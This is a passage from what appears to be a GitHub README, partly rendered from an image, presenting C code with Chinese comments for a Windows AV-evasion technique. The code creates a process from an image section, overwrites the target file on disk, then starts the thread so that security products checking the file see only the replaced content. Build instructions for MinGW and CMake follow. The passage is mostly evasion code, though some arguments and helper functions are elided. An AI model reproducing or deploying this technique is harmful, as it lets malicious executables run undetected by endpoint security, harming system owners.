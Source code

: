 ```c
                      hSection, NULL, NULL, FALSE);

    CloseHandle(hSection);

    // [6] 覆盖目标文件（关键步骤！）
    //     可以用垃圾数据或另一个文件覆盖
    if (replaceFile) {
        HANDLE hReplace = CreateFileW(replaceFile, ...);
        CopyFileContent(hReplace, hTarget);
        CloseHandle(hReplace);
    } else {
        OverwriteFileWithPattern(hTarget, 0xCC);
    }
    // 此时：磁盘文件已修改，但缓存的节未变！

    // [7] 获取入口点并设置进程参数
    SetupProcessParameters(hProcess, &pbi, targetFile);
    ULONG_PTR entryPoint = (ULONG_PTR)peb.ImageBaseAddress + entryRVA;

    // [8] 创建线程执行（安全回调触发）
    HANDLE hThread;
    NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess,
                     (LPTHREAD_START_ROUTINE)entryPoint, NULL, FALSE, ...);
    // 安全产品在此检查磁盘文件，看到的是覆盖后的内容！

    // [9] 关闭文件句柄
    CloseHandle(hTarget);
    // IRP_MJ_CLEANUP 在此触发，检查仍是覆盖后的内容！

    return 0;
}
```

---

## 🛠️ 编译和使用

### 方式一：使用构建脚本（推荐）

#### Windows (MinGW)
```bash
build.bat
```

#### Linux / MSYS2
```bash
chmod +x build.sh
./build.sh
```

### 方式二：使用 CMake
